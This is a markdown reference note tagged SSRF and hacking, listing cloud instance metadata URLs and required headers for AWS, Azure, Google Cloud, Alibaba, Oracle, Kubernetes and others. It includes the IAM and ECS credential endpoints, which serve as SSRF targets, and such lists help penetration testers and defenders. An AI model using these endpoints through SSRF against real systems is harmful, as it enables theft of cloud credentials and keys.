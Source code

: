 ```yaml
---
date: "2020-01-30T16:20:01"
title: Cloud metadata URLs
tags: [ SSRF, hacking, cloud metadata URLs ]
---
```


### Alibaba

```
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

**References**
- https://www.alibabacloud.com/help/faq-detail/49122.htm

***

### AWS

```
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/public-keys/
```

#### ECS Task

```
http://169.254.170.2/v2/credentials/
```

**References**
- http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories
- https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html

* * * 

### Azure

#### No header Required 

```
http://169.254.169.254/metadata/v1/maintenance
```

#### Requires header
Must use `Metadata: true` request header

```
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

**References**
- https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/
- https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service

***

### Google Cloud

#### Requires header 

**Must use one of the following headers** 

- `Metadata-Flavor: Google`
- `X-Google-Metadata-Request: True`

```
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

#### No header required (old)

```
http://metadata.google.internal/computeMetadata/v1beta1/
```

**References**

- https://cloud.google.com/compute/docs/metadata

***

### Digital Ocean

```
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

```

**References**
- https://developers.digitalocean.com/documentation/metadata/

***


### HP Helion
```
http://169.254.169.254/2009-04-04/meta-data/
```

***


### Kubernetes
```
https://kubernetes.default
https://kubernetes.default.svc.cluster.local
https://kubernetes.default.svc/metrics
```
**References**
- https://twitter.com/Random_Robbie/status/1072242182306832384
- https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/

***

### OpenStack/RackSpace

```
http://169.254.169.254/openstack
```

**References**
- https://docs.openstack.org/nova/latest/user/metadata-service.html

***


### Oracle Cloud
```
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

**References**
- https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html

***

### Packetcloud
```
https://metadata.packet.net/userdata
```

